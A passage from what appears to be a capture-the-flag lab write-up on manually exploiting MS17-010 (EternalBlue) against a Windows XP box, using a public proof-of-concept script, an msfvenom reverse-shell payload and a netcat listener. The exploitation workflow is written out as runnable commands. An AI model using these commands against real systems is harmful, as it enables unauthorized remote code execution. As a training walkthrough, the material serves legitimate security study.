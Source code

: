 #### Manual Exploit

When looking into manual exploits, there may be a chance that there is already a proof of concept ("PoC") publicly available. Looking up "ms17-010" into Google, I found a repo from the user "helviojunior" who has a pretty nice repo to clone from that will help us exploit ms17-010 without the Metasploit Framework. Link to the GitHub repo can be found [here](https://github.com/helviojunior/MS17-010.git). The specific file I'll be working with is the `send_and_execute.py` file.  To clone this repo you can run the following command:

```zsh
git clone https://github.com/helviojunior/MS17-010.git
```

The reason for this is that when looking into each of these files, this is the one that has been tested on Windows XP which is what our box is. With this exploit, we are going to need a payload. For this, we can use MSFvenom which will create our Windows reverse shell payload.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.36 LPORT=4444 -f exe > eternalblue.exe
```

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Breaking down the flags, `-p` specifies what type of payload we want, `-f` specifies what format we want, which is an executable file (exe). LHOST is similar to what we saw in the Metasploit Framework section where LHOST is your local host and LPORT is your local port. With this payload, we will be creating an executable payload called `eternalblue.exe`. You could name this whatever you want and have `.exe` at the end. So now after this we should have an executable called `eternalblue.exe` in our working directory.

```zsh
ls -la eternalblue.exe
-rw-r--r-- 1 root root 73802 May 23 14:24 eternalblue.exe
```

Now I'm going to use the `send_and_execute.py` file to send over our reverse shell payload `eternalblue.exe`.

Looking at what is needed from this Python script, we see the following:

```
python send_and_execute.py                                         
send_and_execute.py <ip> <executable_file> [port] [pipe_name]
```

So we need to run the command `send_and_execute.py`, give an `ip address`, and an `executable file`. We have all of those! So let's pwn this machine manually.  Make sure you have a Netcat listener running in the background using the same LPORT you assigned when crafting your MSFvenom reverse shell payload.

```
nc -lvnp 4444
```

